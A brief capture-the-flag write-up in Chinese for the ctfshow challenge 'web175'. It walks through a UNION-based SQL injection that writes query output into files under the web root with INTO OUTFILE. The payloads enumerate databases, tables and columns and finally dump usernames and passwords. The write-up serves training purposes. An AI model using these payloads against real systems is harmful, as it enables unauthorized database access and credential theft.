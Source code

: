 # web175
1.字段数为2时数据正常返回,字段数为2
```
1' order by 1,2--+
```
2.测试回显位置
这里抓包返回数据显示查询失败
将查询结果存放到flag.txt中
```
'union select database(),schema_name from information_schema.schemata into outfile "/var/www/html/test1.txt"--+
```
![](vx_images/306863599006518.png)


```
'union select database(),table_name from information_schema.tables where table_schema='ctfshow_web' into outfile "/var/www/html/test2.txt"--+
```
![](vx_images/163594539814632.png)

```
'union select database(),column_name from information_schema.columns where table_name='ctfshow_user5' into outfile "/var/www/html/test3.txt"--+
```
![](vx_images/123917759925891.png)
```
'union select username,password from ctfshow_user5 into outfile "/var/www/html/test4.txt"--+
```
![](vx_images/543414846821169.png)


![](vx_images/79656963736918.png)